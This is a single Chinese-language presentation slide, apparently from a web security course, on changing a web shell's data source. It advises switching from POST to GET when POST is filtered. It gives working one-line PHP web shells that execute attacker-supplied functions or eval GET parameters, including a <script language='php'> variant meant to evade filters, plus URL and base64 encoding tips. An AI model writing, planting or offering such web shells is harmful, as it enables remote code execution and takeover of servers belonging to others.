

# 更换执行数据来源
如果POST方式被过滤，可以利用GET替换
GET方式在使用方式与POST方式没有太大区别
<?php $_GET[a]($_GET[b]); ?>
可以使用URL编码
Yy5waHA 使用Base64解码之后是c.php
利用<script>代替PHP中的<? >
<script language=“php”>@eval_r($_GET[b])</script>

24
2022/6/11